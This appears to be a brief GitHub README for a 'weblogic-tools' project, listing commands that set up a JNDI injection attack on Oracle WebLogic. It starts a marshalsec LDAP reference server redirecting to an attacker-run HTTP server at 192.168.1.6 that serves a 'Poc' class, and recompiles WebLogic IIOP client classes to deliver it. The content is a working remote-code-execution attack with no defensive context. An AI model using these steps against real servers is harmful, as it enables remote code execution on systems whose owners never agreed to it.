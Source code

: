 # weblogic-tools
weblogic-tools

启动 JNDI 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.1.6:9999/#Poc 1099
```

启动 HTTP 服务

```
python -m http.server 9999
```

修改代码

```
javac -cp wlfullclient.jar -source 1.5 -target 1.5 -sourcepath weblogic -d weblogic weblogic/iiop/IORManager.java

javac -cp wlfullclient.jar -source 1.5 -target 1.5 -sourcepath weblogic -d weblogic weblogic/corba/idl/RemoteDelegateImpl.java
```
启动 com.bea.javascript.jar
```
python -m http.server 8080
```